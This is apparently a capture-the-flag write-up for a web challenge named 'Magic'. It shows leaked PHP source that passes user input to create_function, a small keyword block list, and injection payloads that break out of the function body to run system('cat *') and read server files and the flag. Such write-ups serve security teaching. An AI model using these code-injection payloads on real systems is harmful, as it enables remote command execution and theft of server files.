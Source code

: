 # Table of contents
- ## [Magic](#challenge-name--magic)
  
---

# Notes

### PC environments are Ubuntu and Kali Linux

---

# Challenge Name : Magic

## Information
### Challenge URL 
- http://35.238.173.184/

### Useful endpoints
- http://35.238.173.184/admin.php

### Not useful endpoints
- http://35.238.173.184/rules.html
- http://35.238.173.184/chat.html
- http://35.238.173.184/report.html


By typing something into the form of http://35.238.173.184/admin.php and submit it, it will show information about a deprecated php function `create_function`

Some participants leaked the source code of `admin.php` and it's browsable at http://35.238.173.184/2, we found it using `gobuster`

> Response of http://35.238.173.184/2
```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $blacklist = "/mv|rm|exec/i";
    $code = $_POST['c'];
    if(strlen($code)>60) {
        die("too long to execute");
    }
    if(preg_match($blacklist,$code)){
        die("that's blocked");
    }
    $fun = create_function('$flag', $code);
    print($success);

}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Bug Bounty</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous" />
    <link rel="stylesheet" type="text/css" href="css/style.css" />
</head>
<body>
<header>

...
```

It's safe to say the exploit is `create_function`

## Our solution

First, on php manual https://www.php.net/manual/en/function.create-function.php, it was stated that the function `create_function`  _internally performs eval()_, so we tried `echo "test";` as our first payload, but nothing works.

Then, from the leaked source code, we noticed that `display_errors`,`error_reporting` are turned on. Maybe we need to trigger some error to print the value of flag? But we don't get any good result from here either.

Lastly, we decided to have a look on the source code of `create_function` on github. 

https://github.com/php/php-src/commit/ee16d99504f0014c3d292809da927fb622293f41#diff-edb36f5f855ff35b1fedf54f66a089b9cf76dcad42eb94a3db70e0b88a0fe95fL1901

turns out `create_function` does something like this internally.
```
    create a char* variable

    append 
        "function " + 
        $SOME_DYNAMIC_NAME + 
        "(" + 
        $LIST_OF_ARGUMENTS + 
        ")" + 
        "{" +
        $CODE_TO_EXECUTE +
        "}" +
        "\0"
    into char* variable

    the char* variable are then passed to zend_eval_stringl() to be compiled and executed

```
and $CODE_TO_EXECUTE is the variable that we can control

We constructed a payload to check if we can print anything.

```
}printf("printed some stuff!");function a(){
```

![ss1.png](../files/ss1.png)

the payload works, so we assumed `echo` will able to print something and after testing it's true.

next we tried payload

```
}system("cat flag.php");function a(){
```
which gave us a fake flag

![fakeflag.png](../files/fakeflag.png)

then we tried a more powerful payload

```
}system("cat *");function a(){
```

and in the output we found the flag!

## Flag: shaktictf{p0tn714l_0f_func710n5_4r3_1nf1n173}

---

## Foot Notes

FYI the real flag is in `1998_Dumb_secrets.php`

![ls output](../files/Screenshot%20from%202021-04-05%2012-13-23.png)

---